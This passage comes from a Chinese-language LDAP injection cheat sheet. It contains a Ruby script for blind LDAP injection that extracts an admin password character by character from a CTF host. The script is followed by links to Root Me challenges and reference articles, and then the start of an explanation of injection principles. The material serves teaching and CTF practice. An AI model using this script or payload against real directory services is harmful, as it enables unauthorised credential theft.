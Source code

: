```ruby
#!/usr/bin/env ruby
require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''
(0..50).each do |i|
  puts("[i] 查找第 #{i} 个字符")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] 标志: #{flag}")
      break
    end
  end
end
```

## 实验

* [Root Me - LDAP 注入 - 认证](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Authentication)
* [Root Me - LDAP 注入 - 盲注](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Blind)

## 参考资料

* [[欧洲网络安全周] - AdmYSion - Alan Marrec (Maki)](https://www.maki.bzh/writeups/ecw2018admyssion/)
* [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN - 2018年10月31日](https://0xukn.fr/posts/writeupecw2018admyssion/)
* [如何配置 OpenLDAP 并执行 LDAP 管理任务 - Justin Ellingwood - 2015年5月30日](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
* [如何使用 OpenLDAP 实用程序管理和使用 LDAP 服务器 - Justin Ellingwood - 2015年5月29日](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
* [LDAP 盲注浏览器 - Alonso Parada - 2011年8月12日](http://code.google.com/p/ldap-blind-explorer/)
* [LDAP 注入与盲注 LDAP 注入 - Chema Alonso, José Parada Gimeno - 2008年10月10日](https://www.blackhat.com/presentations/bh-europe-08/Alonso-Parada/Whitepaper/bh-eu-08-alonso-parada-WP.pdf)
* [LDAP 注入防护速查表 - OWASP - 2019年7月16日](https://www.owasp.org/index.php/LDAP_injection)

## LDAP 注入原理

### 基本概念

LDAP (轻量级目录访问协议) 是一种用于访问和维护分布式目录信息服务的应用协议。LDAP 注入是指攻击者通过构造特殊的输入，改变 LDAP 查询的原始意图，从而绕过安全限制或获取未授权信息。

### 注入点

1. **认证表单**
   - 登录页面
   - 密码重置功能
   - 多因素认证
